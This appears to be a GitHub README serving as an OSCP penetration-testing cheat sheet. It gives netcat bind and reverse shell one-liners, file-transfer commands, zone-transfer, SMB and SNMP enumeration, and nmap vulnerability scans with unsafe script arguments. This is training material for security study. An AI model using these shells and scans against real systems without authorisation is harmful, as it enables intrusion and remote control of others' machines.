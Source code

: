 # Go-For-OSCP

# Tips
<b>Enable service on every reboot:</b>

update-rc.d <[service]> enable

<b>Extract link from html page:</b>

cat index.html | grep "href=" | cut -d "/" -f3| grep "debian.org" | cut -d '"' -f1 | sort -u

# Netcat
<b>Interact with application:</b>

nc -nv <[IP]> <[PORT]>

<b>Listener:</b>

nc -nlvp <[PORT]>

<b>File transfer (client):</b>

nc -nlvp <[PORT]> > <[FILE]>

<b>File transfer (server):</b>

nc -nv <[IP]> <[PORT]> < <[FILE_TO_SEND]>

# Bind vs Reverse Shell

<img src="https://raw.github.com/SynAckPwn23/Go-For-OSCP/master/Bind_Reverse_shell.png" width="500"/>

<b>Bind Shell:</b>

Bob needs Alice's help. Bob set up a listener on port 4444 with -e parameter:

(BOB): nc -nlvp <[PORT]> -e cmd.exe

(ALICE): nc -nv <[BOB_IP]> <[PORT]>

<b>Reverse Shell:</b>

Alice needs Bob's help. Since Alice is beyond firewall it is impossible to BOB to reach Alice. So Alice create a reverse shell:

(ALICE): nc -nv <[BOB_IP]> <[PORT]> -e /bin/bash

(BOB): nc -nlvp <[PORT]>

# Zone Transfer

dnsrecon -t axfr -d <[DOMAIN]>

# SMB

nbtscan <[SUBNET]>

nmap -p139,445 --script smb-enum-users <[SUBNET]>

nmap -p139,445 --script=smb-vuln-* --script-args=unsafe=1 <[SUBNET]>

enum4linux

smbclient -L <[IP]> -N

smbclient \\<[IP]>\share -N

# SNTP

nmap -p25 <[SUBNET]> --open

nc -nv IP 25

VRFY <[USERNAME]>

# SNMP

Steps: nmap scan udp 161, create target IP list, create community list file, use onesixtyone + snmpwalk

nmap -sU --open -p161 <[SUBNET]> --open

onesixtyone -c community -i <[SMNP_IP_LIST]>

snmpwalk -c public -v1 <[IP]> <mib-values>

Mib-values (for snmpwalk):

1.3.6.1.2.1.25.1.6.0 System Processes

1.3.6.1.2.1.25.4.2.1.2 Running Programs

1.3.6.1.2.1.25.4.2.1.4 Processes Path

1.3.6.1.2.1.25.2.3.1.4 Storage Units

1.3.6.1.2.1.25.6.3.1.2 Software Name

1.3.6.1.4.1.77.1.2.25 User

1.3.6.1.2.1.6.13.1.3 TCP Local Ports









# Nmap
nmap -sS -sV -A -O --script="*-vuln-*" --script-args=unsafe=1 <[IP]>
